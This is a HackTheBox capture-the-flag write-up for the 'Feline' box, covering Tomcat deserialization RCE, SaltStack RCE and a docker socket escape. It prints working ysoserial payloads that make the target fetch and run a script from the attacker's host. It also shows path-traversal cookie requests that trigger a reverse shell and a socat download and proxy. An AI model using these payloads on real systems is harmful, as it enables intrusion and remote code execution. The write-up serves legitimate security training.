


# Feline

## Overview

This was a really hard box that starts off with a Java deserialization RCE and then takes it up a notch with a Saltstack RCE to privesc into a docker container. From there you need to escape the docker container to get a root shell using some manipulation of the docker socket which was helpfully mounted inside the saltstack container.

## Enumeration

We started off with the typical Rustscan/nmap of the open ports:

```shell
# Nmap 7.80 scan initiated Tue Aug 31 18:09:52 2021 as: nmap -vvv -p 22,8080 -sS -sV -sC -oN 10.10.10.205.feline.nmap.txt 10.10.10.205
Nmap scan report for 10.10.10.205
Host is up, received echo-reply ttl 63 (0.081s latency).
Scanned at 2021-08-31 18:09:52 PDT for 10s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    syn-ack ttl 63 Apache Tomcat 9.0.27
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 31 18:10:02 2021 -- 1 IP address (1 host up) scanned in 10.27 seconds
```
**Rustscan/nmap Output**

Looks like there's an `Apache Tomcat` webserver on `8080`. In typical HackTheBox fashion we should add the name of the box to our `/etc/hosts` file and then we check out the website.


**VirusBucket Website on 8080 served via Apache Tomcat**

There's not much to go on with the current page so let's enumerate further with `Feroxbuster`.


**Feroxbuster Output**

### Port 8080 - Apache Tomcat

`Feroxbuster` immediately found `/images` and `/services`, the latter of which is interesting to us:


**VirusBucket Upload Service**

Looks like we can upload files and they'll end up on the machine. We just don't know where yet. We had a version of Tomcat given to use earlier so we should see if there were any RCEs or other CVEs that might help us here.

Initially we only found some exploit-db results which were not exactly what we were looking for so this taught us to google a little further in some cases outside of exploit-db:


**Googling a Little Deeper**

We find a great blog post on [RedTimmy](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/) that helpfully outlines an exploit for the version of Tomcat that's running here and gives us some PoC examples to walk through.


**RedTimmy Apache Tomcat Deserialization Blog Post**

## Foothold and Exploitation

Following the PoC in the blog post we can use `ysoserial` to create a malicious java payload that contains a deserailization payload that will run our commands.
```shell
$ java -jar ysoserial.jar CommonsCollections2 'curl http://10.10.14.16:32001/p.sh -o /tmp/p.sh' > curl.session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

$ java -jar ysoserial.jar CommonsCollections2 'chmod +x /tmp/p.sh' > chmod.session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

$ java -jar ysoserial.jar CommonsCollections2 '/tmp/p.sh' > exec.session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```


**Creating Malicious Paylods with ysoserial**

The only thing we need to know now is where our uploads end up on the server. We found by using Zap and messing around with the filename we send to the webserver that if we do not include a filename it causes and error and helpfully reveals the upload location:


**Fuzzing with Zap on the Filename**


**Path Disclosure via an Error Message**

Now we're ready to use `curl` with a specially crafted `Cookie` header to achieve RCE.

```shell
curl -s http://10.10.10.205:8080/ -H "Cookie: JSESSIONID=../../../../../opt/samples/uploads/curl" >/dev/null
curl -s http://10.10.10.205:8080/ -H "Cookie: JSESSIONID=../../../../../opt/samples/uploads/chmod" >/dev/null
curl -s http://10.10.10.205:8080/ -H "Cookie: JSESSIONID=../../../../../opt/samples/uploads/exec" >/dev/null
```

After that series of curl commands we should have received a reverse shell:


**Getting an Initial Foothold via a Deserialization Attack**

## Further Enumeration and Privilege Escalation

I poked around the box a little bit but was unable to turn up anything interested with a quick look at SETUID binaries, cronjobs, `/var/backup` and for easy wins in the directories in `/home/`. So next I tried linpeas and noticed some interesting internal services this time.


**Some Service Listening Internally**

Some of the other ports like 8000 and 8005 seemed arbitrary right now and I wasn't sure of what services run on ports `4505` and `4506` so we asked Google:


**Google, what's port 4505?**

SaltStack! Let's find out what the RCE or privesc is :). We googled around a bit and stumbled upon `CVE-2020-11651` and [this GitHub repository](https://github.com/jasperla/CVE-2020-11651-poc) with an extremely helpful PoC.

Unfortunately the service we want to exploit is not listening externally and we needed to use a few python dependencies, notably the `salt` python module. To get around this we can use `socat` to proxy TCP traffic sent to a port listening externally on the victim to a specific socket.

```shell
tomcat@VirusBucket:/var/crash$ curl -LO http://10.10.14.4:32001/socat
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  366k  100  366k    0     0   574k      0 --:--:-- --:--:-- --:--:--  575k
tomcat@VirusBucket:/var/crash$ chmod +x socat                                   
tomcat@VirusBucket:/var/crash$ ./socat tcp-l:45060,fork,reuseaddr tcp:127.0.0.1:4506 &
[1] 86671
```


**Socat to the rescue^H^H^H^Hlay**

Once we have our socat proxy ready and our netcat listener up we can use the PoC code to get a shell inside a Saltstack master docker container.


**Getting a shell via Saltstack RCE**

The command that we ran was sensitive to the order of the "quotes" and if we look at the error logs in the Salt container we can see why the shell with inner single quotes did not work. We were breaking the `subprocess.Popen()` arguments with the single quotes:


**Why Quoting in our Payload Matters!**

## Inception ... or Privilege Escalation from Docker 

Now we need to escape from the container into the host. We enumerated the container and found the docker socket at first but weren't sure how to abuse it without having the `docker` command.

We found two REALLY HELPFUL resources about abusing the docker socket via `curl` and `socat` one from [Dejan Zelic](https://dejandayoff.com/the-danger-of-exposing-docker.sock/) and the other from [SecureIdeas](https://secureideas.com/blog/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.html) here.

Using the information here we were able to find out that there is an image on the docker host called `sandbox`. We're going to launch that container, mount the host file system into it.


**Staging, Creating, and Starting our Docker Container**

Next we need to attach to the new container to get our root flag.


**Give me the flag already, damnit!**
